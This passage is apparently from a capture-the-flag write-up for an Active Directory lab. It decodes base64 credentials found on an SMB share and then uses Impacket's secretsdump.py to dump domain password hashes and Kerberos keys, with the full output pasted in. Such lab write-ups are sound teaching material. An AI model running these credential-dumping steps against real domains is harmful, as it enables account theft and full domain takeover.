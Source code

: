 I have acces to the `backup` share , so to login in I type : `smbclient  //10.10.219.70/backup -U svc-admin` followed by the password.
I find a file and download it with `get [file name]`
I open it locally and get : `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`
I decode it with `base64 -d [file]` and get:
`backup@spookysec.local:backup2517860`
and get the password for backup : backup2517860

## Domain Privilege Escalation 

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

Knowing this, we can use another tool within Impacket called [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py). This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

I use `secretsdump.py -just-dc backup@[ip]` with the password backup2517860 from last topic and get:
```
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:6287354778e244331fcba5469a505e73:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
```